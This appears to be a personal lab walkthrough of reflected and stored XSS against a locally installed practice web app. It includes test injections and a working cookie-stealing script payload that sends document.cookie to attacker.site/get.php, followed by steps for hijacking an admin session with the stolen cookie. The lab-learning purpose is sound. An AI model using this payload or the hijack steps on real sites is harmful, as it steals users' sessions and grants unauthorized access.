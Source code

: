 2024-12-20 19:12

Status:

Tags:

# Reflected XSS and Persistant XSS

## **Target Environment**

- **Web Application**: Mobile Tech
- **Domain**: `xssvictim.site`
- **Setup**: Installed locally, not available online.

---

## **Step-by-Step Analysis**

### **1. Finding Injection Points**

- **Search Field**: Found on the homepage; a prime candidate for testing.
- **Blog Page**: Contains a **comment field** allowing user input when logged in.

---

### **2. Testing the Search Field**

#### **Basic HTML Injection Test**

- Input: `<h1>hi</h1>`
- Result:
    - HTML tags are **not sanitized**.
    - Input is printed as an interpreted HTML tag.

#### **JavaScript Injection Test**

- Input: `<script>alert('XSS')</script>`
- Result:
    - An **alert box** pops up, indicating **Reflected XSS** vulnerability.
    - The application interprets and executes JavaScript code.

#### **Extracting Cookies**

- Input: `<script>alert(document.cookie)</script>`
- Result:
    - **Session cookies** are displayed, exposing session ID information.

---

### **3. Testing the Comment Field**

#### **HTML Injection Test**

- **Object Field**: Sanitizes input. HTML tags not interpreted.
- **Comment Field**: Allows `<h1>` tags.
- **Result**:
    - Input is displayed as interpreted HTML, confirming partial vulnerability.

#### **JavaScript Injection Test**

- Input: `<script>alert('XSS')</script>`
- Result:
    - Alert box appears, confirming **Stored XSS** vulnerability.

---

## **4. Crafting the Exploit**

### **Objective**:

Steal **session cookies** of victims stealthily without alert pop-ups.

### **Steps**:

1. **Attacker Server Setup**:
    
    - **Script**: `get.php` (hosted on `attacker.site`).
    - Purpose: Captures cookie information and stores it in `jar.txt`.
2. **JavaScript Payload**:
    
    - Code:
        
        javascript
        
        Copy code
        
        `<script>   var i = new Image();   i.src = "http://attacker.site/get.php?cookie=" + escape(document.cookie); </script>`
        
    - **How it works**:
        - Creates an **Image object** in JavaScript.
        - Sets the image source to the attacker's script with cookies appended as a query parameter.
        - No visible effect on the victim's browser.
3. **Injection in Comment Field**:
    
    - Insert the payload in the comment box.
    - When a victim loads the page, cookies are sent to the attacker server.

---

## **5. Impersonating the Victim (Admin Session Hijack)**

- **Steps**:
    1. Collect the **PHP session ID** from `jar.txt`.
    2. Use browser tools (e.g., Firebug) to **edit cookies**:
        - Replace current session cookie with the stolen one.
    3. Reload the page.
- **Result**:
    - Successfully logged in as **Admin**.
    - Access to admin functionalities and sensitive data.

---

## **Summary of Key Takeaways**

1. **Injection Points**:
    
    - **Search Field**: Vulnerable to Reflected XSS.
    - **Comment Field**: Vulnerable to Stored XSS.
2. **Reflected vs Stored XSS**:
    
    - **Reflected**: Immediate execution upon input submission.
    - **Stored**: Persistent; executed when the page containing the input is loaded.
3. **Cookie Theft**:
    
    - Exploiting `document.cookie` to extract session cookies.
    - Cookies can be sent to an attacker-controlled server.
4. **Payload Delivery**:
    
    - Use of JavaScript to send cookies silently via an `Image` object.
5. **Session Hijacking**:
    
    - Edit cookies in the browser to impersonate a victim’s session.

---

### **Why XSS Is Dangerous**:

- Allows attackers to **steal cookies**, impersonate users, and gain unauthorized access to sensitive data.




### References
